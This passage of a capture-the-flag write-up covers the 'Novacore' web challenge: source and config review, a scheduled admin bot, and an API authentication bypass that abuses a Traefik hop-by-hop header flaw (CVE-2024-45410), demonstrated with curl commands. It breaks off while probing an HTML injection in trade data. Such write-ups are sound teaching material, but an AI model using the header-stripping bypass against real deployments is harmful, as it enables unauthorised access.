




Novacore was an extremely well-designed web security challenge that appeared in **Hack the Box's Global Cyber Skills Benchmark CTF 2025** where companies like Microsoft, Cisco, Intel, Deloitte and KPMG showcased their cybersecurity talents in a one-of-a-kind business CTF. I competed with [CTFAE](https://ctf.ae) securing 7th versus 750 companies.

I solved Novacore when it had 6 solves and it ended up being the least solved web challenge with ~20 solves by the end of the five day CTF.

The final chain had around 10 vulnerabilities that must be chained together to reach code execution.

In summary, the challenge starts with an access control bypass, followed by a buffer overflow (yes, you heard it right) in a custom keystore implementation, followed by a CSP bypass via an HTML injection to trigger three different DOM clobbering vectors that utilized a diagnostic endpoint to deliver and execute an XSS payload. From there, a file upload bypass combined with an arbitrary file write was used to place a polyglot TAR/ELF payload that we could execute to get RCE; and finally the flag.

This will be a beginner-friendly writeup, I will be breaking down the challenge, walking you through my mindset, before wrapping it up with a nice 0-to-flag script.

Let's dig in.

## Chapter 0: Just a normal visitor
As usual, let's first explore the site's functionality black box.

We start with the landing page:


It seems like a website for trading stocks. It seems to support AI-driven trade. Interesting.

We can try to check the **User Dashboard**, but are stopped by a login form. Further enumeration does not give any tell-tale vulnerability signs:


We can not find any means to create an account. How can we register? Checking the **Get an Account** menu we find this:


It seems invite only. Mmm...

The other **About Us**, **Privacy Policy** and **For Developers** links contain information and promotional material about Novacore and the features of their platform. The **For Developers** page hint at the existence of a Novacore developer API:


That's good, let's delve into the code.

## Chapter 1: Code structure
We are given the following tree structure:
```r
$ tree .
.
├── Dockerfile
├── build_docker.sh
├── challenge
│   ├── cache
│   │   ├── aetherCache.c
│   │   └── compile.sh
│   ├── conf
│   │   ├── dynamic_config.yml
│   │   ├── supervisord.conf
│   │   └── traefik.yml
│   ├── plugins
│   │   ├── alert.c
│   │   ├── compile.sh
│   │   ├── rrrc.c
│   │   └── sma.c
│   └── src
│       ├── application
│       │   ├── app.py
│       │   ├── blueprints
│       │   │   ├── api.py
│       │   │   └── web.py
│       │   ├── config.py
│       │   ├── datasets
│       │   │   ├── demo_dataset1.tar
│       │   │   ├── demo_dataset2.tar
│       │   │   ├── demo_dataset3.tar
│       │   │   └── demo_dataset4.tar
│       │   ├── plugins
│       │   ├── static
				...
│       │   ├── templates
				...
│       │   └── util
│       │       ├── bot.py
│       │       ├── cache.py
│       │       ├── database.py
│       │       └── general.py
│       ├── requirements.txt
│       └── run.py
├── entrypoint.sh
└── flag.txt

17 directories, 60 files
```

From the file structure, it seems like we have a **"plugins"** feature. These plugins seem to be written in C while the main app itself is written in python, specifically Flask.

We also notice there is a **"datasets"** feature with a couple of `.tar` files in there, perhaps the app is accepting file uploads?

We also notice that the `supervisord` process runner is used alongside `traefik`, a popular reverse proxy similar to `nginx`.

The app is dockerized, here is the `Dockerfile`:
```dockerfile
# Use the official Ubuntu base image
FROM ubuntu:20.04

# Set non-interactive frontend for automated installs
ENV DEBIAN_FRONTEND=noninteractive

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# Copy flag
COPY flag.txt /flag.txt

# Install Traefik, Python, Supervisor, and other dependencies
RUN apt-get update && \
    apt-get install -y python3 python3-pip supervisor gcc curl unzip exiftool && \
    curl -sSL https://github.com/traefik/traefik/releases/download/v2.10.4/traefik_v2.10.4_linux_amd64.tar.gz | tar -xz -C /usr/local/bin && \
    chmod +x /usr/local/bin/traefik && \
    curl -sSL https://storage.googleapis.com/chrome-for-testing-public/125.0.6422.141/linux64/chromedriver-linux64.zip -o chromedriver-linux64.zip && \
    unzip chromedriver-linux64.zip -d /usr/local/bin && \
    chmod +x /usr/local/bin/chromedriver-linux64/chromedriver && \
    curl https://dl.google.com/linux/chrome/deb/pool/main/g/google-chrome-stable/google-chrome-stable_125.0.6422.141-1_amd64.deb -o google-chrome-stable_125.0.6422.141-1_amd64.deb && \
    apt-get install -y ./google-chrome-stable_125.0.6422.141-1_amd64.deb

# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge/src .

# Install dependencies
RUN pip install -r requirements.txt

# Copy custom Traefik configuration files
COPY challenge/conf/traefik.yml /etc/traefik/traefik.yml
COPY challenge/conf/dynamic_config.yml /etc/traefik/dynamic_config.yml

# Switch working environment
WORKDIR /

# Create cache directory
RUN mkdir -p /cache

# Copy cache files
COPY --chown=root challenge/cache/compile.sh /cache/compile.sh
RUN chmod +x /cache/compile.sh
COPY challenge/cache/aetherCache.c /cache/aetherCache.c 
RUN /cache/compile.sh

# Copy plugin files
COPY --chown=root challenge/plugins /app/application/plugins
RUN chmod +x /app/application/plugins/compile.sh
RUN /app/application/plugins/compile.sh

# Setup supervisor
COPY challenge/conf/supervisord.conf /etc/supervisord.conf

# Expose the HTTP port
EXPOSE 1337

# Copy entrypoint and make it executable
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

# Run the entrypoint script
```

Apart from a very typical Flask setup, the `Dockerfile` makes sure to pre-compile the C plugins we saw earlier. It also pulls specific versions of Traefik and Chrome these are `v2.10.4` and `125.0.6422` respectively.

While we are at it, let's quickly check the python `requirements.txt` for versions:
```
SQLAlchemy==2.0.36
Flask==3.0.3
bcrypt==4.2.0
selenium==4.25.0
requests==2.32.3
schedule==1.2.2
```

We always want to check versions in case they yield any quick gains from public CVEs. For now, we will note them down and continue our work.

Back on track, let's see the docker `entrypoint.sh` to understand how the app is launched:
```bash
#!/bin/bash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Random password function
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}

# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt

# Set environment variables
export ADMIN_EMAIL="$(genPass)@novacore.htb"
export ADMIN_PASS="$(genPass)"

# Launch supervisord
/usr/bin/supervisord -c /etc/supervisord.conf
```

1. `flag.txt` is relocated to a random location, this typically means our goal is to get RCE.
2. There is an admin account with `ADMIN_EMAIL` and `ADMIN_PASS` credentials, both are random MD5 hashes.
3. The entire app is finally launched via `supervisord`.

Nice, let's check what the `supervisord` configuration looks like:
```c
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:flask]
command=python3 /app/run.py
user=root
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:traefik]
command=/usr/local/bin/traefik --configFile=/etc/traefik/traefik.yml
user=root
autostart=true
autorestart=true
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0

[program:cache]
command=/cache/aetherCache 6379
user=root
autostart=true
autorestart=true
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
```

In this app, `supervisord` is running as `root` and is controlling three different processes:
1. `program:flask`: our web server
2. `program:traefik`: reverse proxy
3. `program:cache`:  seems to be a custom cache server named `aetherCache`.

A quick glance at `traefik`'s configuration:
```yml
# Entry points configuration
entryPoints:
  web:
    address: ":1337"

# Set up a file-based dynamic configuration provider
providers:
  file:
    filename: "/etc/traefik/dynamic_config.yml"
```

`traefik` is configured to listen at `tcp/1337` and load a simple `dynamic_config.yml`:
```yml
# dynamic_config.yml

http:
  routers:
    my-app-router:
      rule: "PathPrefix(`/`)"
      entryPoints:
        - web
      service: my-app-service

  services:
    my-app-service:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:5000"

```

It is essentially a simple configuration to allow `traefik` to expose the running Flask server on `tcp/1337`. For now, it seems like `traefik` is just a simple passthrough to Flask, nothing fancy.

Before reviewing `aetherCache`, we want to get a quick summary of the app's endpoints, an LLM is a great way to do that:
```c
You have the following flask API, I put all the files below.
Give me a sitemap of all routes.
Do not explain and give it to me as a Markdown block:
// api.py
-- redacted --

// web.py
-- redacted --

// main.py
-- redacted --
```

And it was able to generate this beautiful, accurate Markdown sitemap that we can utilize for our reference.

### Web Routes (`/`)

| Method    | Path                                    | Description               |
| --------- | --------------------------------------- | ------------------------- |
| GET       | `/`                                     | Home page                 |
| GET       | `/get-an-account`                       | Get An Account page       |
| GET       | `/about-us`                             | About Us page             |
| GET       | `/privacy-policy`                       | Privacy Policy page       |
| GET       | `/for-developers`                       | For Developers page       |
| GET, POST | `/login`                                | Login page and submission |
| GET       | `/logout`                               | Logout                    |
| GET       | `/dashboard`                            | User dashboard            |
| GET       | `/live_signals`                         | View live signals         |
| POST      | `/copy_trade`                           | Copy a signal trade       |
| GET       | `/my_trades`                            | View copied trades        |
| GET       | `/datasets`                             | List uploaded datasets    |
| POST      | `/upload_dataset`                       | Upload dataset            |
| GET       | `/plugins`                              | List available plugins    |
| POST      | `/run_plugin`                           | Execute selected plugin   |
| POST      | `/front_end_error/<action>/<log_level>` | Log/view frontend errors  |

### API Routes (`/api`)

| Method    | Path                 | Description              |
| --------- | -------------------- | ------------------------ |
| GET, POST | `/`                  | API index check          |
| GET       | `/active_signals`    | Get active signals       |
| POST      | `/copy_signal_trade` | Copy a signal to a trade |
| GET       | `/trades`            | Get user trades          |
| POST      | `/edit_trade`        | Edit a user's trade      |

This is extremely helpful. We formed a high-level understanding of the codebase. Next, we will try to find any intriguing features to exploit.

## Chapter 2: Some Bot Action

In our earlier review, you might have noticed a juicy `bot.py`.

A client-side vector is always a delicacy to indulge, let's have a look:
```python
# src/application/util/bot.py
import time, random

from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service

def bot_runner(config):
	chrome_options = Options()

	chrome_options.add_argument("headless")
	chrome_options.add_argument("no-sandbox")
	chrome_options.add_argument("ignore-certificate-errors")
	chrome_options.add_argument("disable-dev-shm-usage")
	chrome_options.add_argument("disable-infobars")
	chrome_options.add_argument("disable-background-networking")
	chrome_options.add_argument("disable-default-apps")
	chrome_options.add_argument("disable-extensions")
	chrome_options.add_argument("disable-gpu")
	chrome_options.add_argument("disable-sync")
	chrome_options.add_argument("disable-translate")
	chrome_options.add_argument("hide-scrollbars")
	chrome_options.add_argument("metrics-recording-only")
	chrome_options.add_argument("no-first-run")
	chrome_options.add_argument("safebrowsing-disable-auto-update")
	chrome_options.add_argument("media-cache-size=1")
	chrome_options.add_argument("disk-cache-size=1")

	chromedriver_path = "/usr/local/bin/chromedriver-linux64/chromedriver"
	service = Service(executable_path=chromedriver_path)
	client = webdriver.Chrome(service=service, options=chrome_options)

	client.get("http://127.0.0.1:1337/login")

	time.sleep(3)
	client.find_element(By.ID, "email").send_keys(config["ADMIN_EMAIL"])
	client.find_element(By.ID, "password").send_keys(config["ADMIN_PASS"])
	client.execute_script("document.getElementById('login-btn').click()")
	time.sleep(3)

	client.get(f"http://127.0.0.1:1337/my_trades")

	time.sleep(10)

	client.quit()
```

We do not really care about the Chrome arguments here [(although they are sometimes crucial to the solution)](/posts/hack-my-bot-pwnme-2025-ctf/#chapter-4-bot-control), we care about the bot's flow.

The bot logs in, checks his trades at `/my_trades` for 10 seconds before finally leaving.

Looking at `run.py` (the main python entrypoint), we can see that the bot logs in every minute:
```python
if __name__ == "__main__":
	# ...
	
	schedule.every(1).minutes.do(bot_runner, app.config)
	
	# ...
```

## Chapter 3: Cracking the Shell

Recall that we could not find any means to register an account; even the endpoints we saw earlier did not contain account registration.

This leaves us with a question: how do we interact with Novacore's internal endpoints?

We have three logical options:
1. Find a way to login as the only existing user (admin)
2. Find useful unauthenticated endpoints
3. Bypass access control

Let's look at the two Flask routers we have. In `web.py`, we notice that access control is implemented via the `login_required` middleware which simply checks for the `session.get("loggedin")` flag:
```python
def login_required(f):
	@wraps(f)
	def decorated_function(*args, **kwargs):
		if not session.get("loggedin"):
			return redirect("/login")
		return f(*args, **kwargs)
	return decorated_function
```

This flag is correctly set on successful login at `/login`:
```python

@web.route("/login", methods=["GET", "POST"])
def login():
	if request.method == "GET":
		return render_template("login.html", nav_enabled=False, title="Login")

	email = request.form.get("email")
	password = request.form.get("password")

	if not email or not password:
		return render_template(
			"error.html",
			title="Error",
			type="Authorization",
			message="Email and password is required",
			nav_enabled=False,
		), 403

	db_session = Database()
	user_valid, user = db_session.check_user(email, password)

	if not user_valid:
		return render_template(
			"error.html",
			title="Error",
			type="Authorization",
			message="Invalid email or password",
			nav_enabled=False,
		), 403

	session["loggedin"] = True
	session["email"] = user.email
	session["api_token"] = user.api_token

	return redirect("/dashboard")
```

Most endpoints like `/dashboard` are protected by the `@login_required` middleware as so:
```python
@web.route("/dashboard", methods=["GET"])
@login_required
def dashboard():
	return render_template("dashboard.html", title="Dashboard", session_data=session)
```

There seems to be no way around it.

Reviewing all endpoints in `web.py`, we find a single endpoint without `@login_required`:
```python
@web.route("/front_end_error/<action>/<log_level>", methods=["POST"])
def log_front_end_error(action, log_level):
	error = request.json

	if action == "new":
		if not error or not log_level:
			return jsonify({"message": "Missing user input"}), 401

		FRONT_END_ERRORS[log_level] = error
		return jsonify({"message": "Error logged"}), 200

	elif action == "view":
		if log_level not in FRONT_END_ERRORS:
			return jsonify({"message": "No errors found for the specified log level"}), 404

		return jsonify(FRONT_END_ERRORS[log_level]), 200

	else:
		return jsonify({"message": "Invalid action"}), 400
```

It seems like a diagnostic endpoint used by the app to report frontend errors, it is left exposed at `/front_end_error/<action>/<log_level>`.

It accepts two "actions", `new` and `view`. `new` allows us to set a key to specific JSON payload, while `view` allows us to read that key. Essentially, it gives us a same-site read-write endpoint which we can use to deliver data to the site or exfiltrate data from it.

This is a very useful primitive that we might need later.

> A **primitive** is a tiny little gimmick or feature that might be meaningless in isolation, but may be combined with other primitives to achieve more powerful vectors leading to successful exploitation.

Our review of `web.py` netted us one primitive, let's see what we can find at `api.py`.

The API has four functions and all of them are protected with another middleware `@token_required` which is defined as follows:
```python
def token_required(f):
	@wraps(f)
	def decorated_function(*args, **kwargs):
		client_ip = request.headers.get("X-Real-IP")

		if not client_ip:
			return f(*args, **kwargs)

		token = request.headers.get("Authorization")
		if not token:
			return jsonify({"error": "API token is missing"}), 401

		db_session = Database()
		valid, user = db_session.validate_token(token)
		if not valid:
			return jsonify({"error": "Invalid API token"}), 401

		g.user = user
		return f(*args, **kwargs)
	return decorated_function
```

`token_required` protects endpoints by checking the `Authorization` header for an API token, this API token is granted to us on login.

I found it suspicious that the author chose two separate protection mechanisms between `web.py` and `api.py` which essentially perform the same thing via different means.

If we look closely, we will notice that `token_required()` contains a kill switch. The function checks for the existence of the `X-Real-Ip` header, if it doesn't exist, the middleware lets go.

But where is `X-Real-Ip` being set anyways? It seems like `traefik` is setting for Flask, let's patch our app locally to confirm this. We will add a line on `@web.after_request` to print received headers:
```python
@web.after_request
def apply_csp(response):
    print("Received headers:\n", request.headers, flush=1)
```

Waiting a minute for the bot to login and trigger an API call, we receive these:
```http
Received headers:
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.6422.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Sec-Ch-Ua: "HeadlessChrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1:1337
X-Forwarded-Port: 1337
X-Forwarded-Proto: http
X-Forwarded-Server: a477f169e095                       
X-Real-Ip: 127.0.0.1
```

Notice that since `traefik` is now sitting in front of Flask, it appends a couple of `X-*` headers to tell Flask what the original IP of the request was.

A request sent to Flask internally, say using `curl` for example and not through `traefik`, does not include these `X-*` headers:
```http
Received headers:
Host: 127.0.0.1:1337
User-Agent: curl/8.12.1
Accept: */*
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1:1337
X-Forwarded-Port: 1337
X-Forwarded-Proto: http
X-Forwarded-Server: a477f169e095                       
X-Real-Ip: 127.0.0.1
```

In our `token_required` middleware there is an implicit assumption that says:
- **Every** request sent through `traefik` will have the `X-Real-Ip` header
- If a request does not have the `X-Real-Ip` header, it is to be trusted as it must be a local request.

I asked, what if that is not true?

Remember that we noticed that `traefik` v2.10.4 was used? Now that we understand the role of `traefik`, we ask ourselves, why?

A bunch of searches online and we find a bunch of 2025 CVEs that were fixed on v2.11.24 succeeding v2.10.4:


We do not really find anything interesting in them. More searching and we find [CVE-2024-45410](https://nvd.nist.gov/vuln/detail/CVE-2024-45410) which reads:
> When a HTTP request is processed by Traefik, certain HTTP headers such as X-Forwarded-Host or X-Forwarded-Port are added by Traefik before the request is routed to the application.

Oh, yes! What else?
> For a HTTP client, it should not be possible to remove or modify these headers. Since the application trusts the value of these headers, security implications might arise, if they can be modified.

Most certainly! What else??
> For HTTP/1.1, however, it was found that some of theses custom headers can indeed be removed and in certain cases manipulated. The attack relies on the HTTP/1.1 behavior, that headers can be defined as hop-by-hop via the HTTP Connection header. This issue has been addressed in release versions 2.11.9 and 3.1.3.

We also find the corresponding [GitHub advisory](https://github.com/advisories/GHSA-62c8-mh53-4cqv) which confirms this ability:


The advisory details that:

> It was found that the following headers can be removed in this way (i.e. by specifing them within a connection header):

- X-Forwarded-Host
- X-Forwarded-Port
- X-Forwarded-Proto
- X-Forwarded-Server
- X-Real-Ip
- X-Forwarded-Tls-Client-Cert
- X-Forwarded-Tls-Client-Cert-Info

We send a request to demonstrate the vulnerability:
```bash
curl http://localhost:1337/ -H "Connection: close, X-Real-Ip"
```

And we notice that we do on the other end, `X-Real-Ip` got dropped:
```http
Received Headers:
Host: 127.0.0.1:1337
User-Agent: curl/8.12.1
Accept: */*
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1:1337
X-Forwarded-Port: 1337
X-Forwarded-Proto: http
X-Forwarded-Server: a477f169e095                       
```

Brilliant! A follow up request confirms that we have, indeed, bypassed the API access control:
```
 curl http://94.237.122.124:47098/api/trades -H "Connection: close, X-Real-Ip"
{"trades":[]}
```

## Chapter 4: Wreaking Havoc

In the last chapter, we successfully analyzed the two primary protection mechanisms in both `web.py` and `app.py` (`/` and `/api` routers respectively)

In `web.py`, we couldn't bypass the `login_required()` middleware, but we found a same-site read-write primitive at `/front_end_error/<action>/<log_level>`. On the other hand, on `api.py` we identified **CVE-2024-45410** in the used Traefik version which allowed us to bypass the API's access control completely.

Let's see what we can do with our newly found powers. 

As seen earlier, the API has features related to managing trades:

| Method | Path                 | Description              |
| ------ | -------------------- | ------------------------ |
| GET    | `/active_signals`    | Get active signals       |
| POST   | `/copy_signal_trade` | Copy a signal to a trade |
| GET    | `/trades`            | Get user trades          |
| POST   | `/edit_trade`        | Edit a user's trade      |

Interesting. Remember that the bot account is periodically checking his trades? Maybe we can serve him some malicious trades!

Before we do that, let's check out how data flows to the `/my_trades` page which the bot lands on.

1. `my_trades` is defined in the `my_trades.html` template, which displays trades as this:
```html
<tbody>
	
	<tr>
		<td>{{ loop.index }}</td>
		<td>{{ trade.data.action | safe }}</td>
		<td>{{ trade.data.price | safe }}</td>
		<td>{{ trade.data.symbol | safe }}</td>
		<td>{{ trade.key }}</td>
	</tr>
	
</tbody>
```

Needless to say, the three properties, `action`, `price` and `symbol` are not sanitized giving us an HTML injection vector if we can control them.

Let's see where the trades come from.

2. The request is handled by `/my_trades` in `web.py`:
```python
@web.route("/my_trades", methods=["GET"])
@login_required
def my_trades():
	trade_data = fetch_cache("trades", session["api_token"])
	if "error" in trade_data:
		trade_data = None
	else:
		trade_data = trade_data["trades"]

	return render_template("my_trades.html", title="Live Signals", session_data=session, trades=trade_data)
```

 `trade_data` is fetched via `fetch_cache("trades", session["api_token"])` before getting rendered to the user. How does `fetch_cache` work though?

3. `fetch_cache` is defined in `general.py`:
```python
def fetch_cache(endpoint, token):
	endpoint = f"http://127.0.0.1:1337/api/{endpoint}"
	headers = {
		"Authorization": f"{token}",
		"Content-Type": "application/json"
	}
	
	try:
		response = requests.get(endpoint, headers=headers)
		response.raise_for_status()
		return response.json()
	except requests.exceptions.RequestException as e:
		return {"error": str(e)}
```

Turns out, `fetch_cache` is a wrapper that calls `/api/trades` internally via `requests`; it also sends the `Authorization` token received from the user's session.

Let's see where the API in turn gets these trades from.

4. The `/api/trades` API endpoint is a wrapper around the `AetherCacheClient`:
```python
@api.route("/trades", methods=["GET"])
@token_required
def trades():
	cache_session = AetherCacheClient()

	user_id = g.user.id if g.get("user") else "sys_admin"

	trade_keys = cache_session.list_keys()

	trades = []
	for key in trade_keys:
		if key.startswith(f"user:{user_id}:trade:"):
			value = cache_session.get(key)
			if value:
				trades.append({
					"key": key.split(":")[-1],
					"data": parse_signal_data(value)
				})

	return jsonify({"trades": trades})
```

It first grabs a `cache_session` by instantiating `AetherCacheClient`, then gets all keys stored in the cache.

The function gets the current user's ID `user_id` stored on the global Flask request context `g` and falls back to `sys_admin` if it is not set.

The function then extracts all trade signal keys that follow the pattern `user:{user_id}:trade:` and returns each value after parsing it using `parse_signal_data`.

Cool. Let's go deeper and see how does `AetherCacheClient` work?

5. `AetherCacheClient` is a Python sockets wrapper around the `aetherCache.c` program
```python
class AetherCacheClient:
	def __init__(self):
		self.host = "127.0.0.1"
		self.port = 6379
		self.timeout = 5.0
		self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.sock.settimeout(self.timeout)
		self.connect()
	

	def connect(self):
		try:
			self.sock.connect((self.host, self.port))
		except socket.timeout:
			return None
		except Exception as e:
			self.sock.close()
	
	
	def validate_input(self, text):
		if re.match(r"^[\x20-\x7E]+$", text):
			return True
		else:
			return False
	
	
	def send_command(self, command):
		try:
			self.sock.sendall(command.encode())
			response = self.sock.recv(1024).decode()
			return response.strip()
		except socket.timeout:
			return "ERROR: Request timed out."
		except Exception as e:
			return "ERROR"
	
	
	def set(self, key, value):
		if self.validate_input(key) and self.validate_input(value):
			command = f"set {key} {value}\n"
			return self.send_command(command)
		else:
			return "ERROR: Invalid input. Command dropped."
	
	
	def get(self, key):
		if self.validate_input(key):
			command = f"get {key}\n"
			response = self.send_command(command)
			if response == "NOT_FOUND" or "ERROR" in response:
				return None
			return response
		else:
			return None
	
	
	def list_keys(self):
		command = "list\n"
		response = self.send_command(command)
		if response.startswith("ERROR"):
			return []
		return response.splitlines() if response else []
	
	
	def migrate(self):
		signals = [
			{"symbol": "AAPL", "action": "buy", "price": "150.236"},
			{"symbol": "GOOGL", "action": "sell", "price": "2800.12"},
			{"symbol": "TSLA", "action": "buy", "price": "761.01"},
			{"symbol": "AMZN", "action": "sell", "price": "3321.10"},
			{"symbol": "NFLX", "action": "buy", "price": "550.67"}
		]

		for signal in signals:
			signal_id = str(uuid.uuid4())
			signal_data = format_signal_data(signal["symbol"], signal["action"], signal["price"])
			self.set(f"signal:{signal_id}", signal_data)


	def close(self):
		self.sock.close()
	
	
	def __del__(self):
		self.close()
```

We can see it offers some convenience methods such as `set`, `get` and `list_keys`. They are all simply sending commands to the underlying key-value store. The raw commands include:
- `list`
- `get <key>`
- `set <key> <value>`

It is a very simple keystore similar to Redis.

Let us confirm these results by logging to the Docker container locally and inspecting the cache.
```bash
root@a289fda6f4bd:/# nc -v 127.0.0.1 6379
Connection to 127.0.0.1 6379 port [tcp/*] succeeded!
list
signal:17bb0ffc-5b96-44f3-8e86-ec104e68b5df
signal:a6598f42-8457-46ad-bf3a-b5aa2d97d0b6
signal:24c9fd30-9a88-421e-a65b-eabb2938d457
signal:42d56d70-1322-4f6a-b89c-c8b49986ab6f
signal:2e76d99f-afbc-4ef2-a06e-ef5123d13613
get signal:24c9fd30-9a88-421e-a65b-eabb2938d457
symbol|TSLA|action|buy|price|761.01
```

Interesting, so we have a bunch of signals, and we can read some of them. Let's try to copy a signal and see what happens:
```bash
curl http://localhost:1337/api/copy_signal_trade \
	-H "Connection: close, X-Real-Ip" \
	-H "Content-Type: application/json" \
	-d '{"signal_id": "24c9fd30-9a88-421e-a65b-eabb2938d457"}'
{"message":"Trade copied successfully","trade_id":"b0edd7e4-c6b8-46ea-9595-b58d5bf41617"}
```

Nice! Let's check back at the cache store:
```bash
list
signal:17bb0ffc-5b96-44f3-8e86-ec104e68b5df
signal:a6598f42-8457-46ad-bf3a-b5aa2d97d0b6
signal:24c9fd30-9a88-421e-a65b-eabb2938d457
signal:42d56d70-1322-4f6a-b89c-c8b49986ab6f
signal:2e76d99f-afbc-4ef2-a06e-ef5123d13613
user:sys_admin:trade:b0edd7e4-c6b8-46ea-9595-b58d5bf41617
```

We can see that copying a signal added a new "trade" entry with the generated `trade_id`.

I patched the app locally to print the admin's email and password on start. This allows me to debug things locally and view them from an admin's point of view.

Let's try to view the trade we just generated as admin:


What? Why is it empty? Let's see what happens when we copy a trade as admin from the **Live Signals** page:


Going back to **My Trades**, we can see that our trade signal was copied correctly!


Let's see what that looks like in our cache locally:
```bash
list
signal:17bb0ffc-5b96-44f3-8e86-ec104e68b5df
signal:a6598f42-8457-46ad-bf3a-b5aa2d97d0b6
signal:24c9fd30-9a88-421e-a65b-eabb2938d457
